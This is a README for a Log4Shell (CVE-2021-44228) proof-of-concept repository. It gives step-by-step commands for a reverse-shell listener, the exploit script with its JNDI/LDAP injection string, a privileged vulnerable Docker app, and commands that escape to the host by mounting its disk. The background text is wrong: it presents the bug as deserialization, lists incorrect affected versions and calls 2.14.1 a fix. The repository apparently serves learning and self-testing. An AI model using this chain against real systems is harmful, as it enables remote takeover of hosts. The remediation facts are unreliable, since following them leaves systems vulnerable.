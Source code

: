 Log4j Vulnerability (CVE-2021-44228)
----------------------

A security vulnerability, identified as CVE-2021-44228, has been discovered in certain versions of the Log4j library. In this proof of concept (poc) the explotetion of the log4j vulnerability is combined with another misconfiguration which allow an attacker to gain complete control of a victim host.

The vulnerability is caused by a flaw in the way Log4j handles deserialization of untrusted data. An attacker could exploit this vulnerability by injecting malicious payloads into the log data, which would then be deserialized by Log4j. If the victim host has a vulnerable version of Log4j and a misconfigured Java Object Input Stream (OIS) deserialization, the attacker could potentially execute arbitrary code with the same privileges as the user running the application.
In this example, multiple exploits are used in succession. First, the log4j vulnerability is exploited, and then a misconfiguration in the privileged mode of the Docker service is exploited in order to gain access to the host system.

Affected versions of Log4j are:
2.13.3 and prior
2.14.0
It is highly recommended to upgrade to Log4j version 2.14.1 or later, which addresses this vulnerability.

In addition to upgrading Log4j, it is important to ensure that the OIS deserialization is properly configured to only deserialize trusted data. This can be done by implementing a custom ObjectInputStream subclass that checks for malicious payloads or by disabling deserialization altogether if it is not needed for the application.

Please also review your system and verify that you are not using any vulnerable version of log4j and also check the deserialization configuration of your application.

It is important to keep your software up to date, and to be aware of any security vulnerabilities that may affect your systems. If you suspect that your host may have been compromised, it is important to take immediate action to contain the damage and prevent further attacks.

----------------------

As a PoC, a python file that automates the process is been created. 


#### Requirements:
```bash
pip install -r requirements.txt
```

#### Usage (exploiting log4j vuln):

* Start a pwncat listener to accept reverse shell connection.<br>
```py
pyhton3 -m pwncat -lp 4545 -m linux
```

* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 9000 --lport 4545

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/stefanosimonetto/log4j-shell-poc.git
[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Dockerized vulnerable application
--------------------------

A Dockerfile is been added with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --privileged --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

#### Usage (exploiting Docker misconfiguration):
Once you have remote code execution enable:

```py
press CTRL+D to change from local to remote
```
Execute the following commands to make a directory and copy the victim's host disk:
```py
mkdir -p /mnt/pwned
mount /dev/sda1 /mnt/pwned
```


Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Using this exploit for malicious activity is not endorsed or supported. If assistance is requested, proof of ownership or authorized penetration testing permission for the target service may be required.

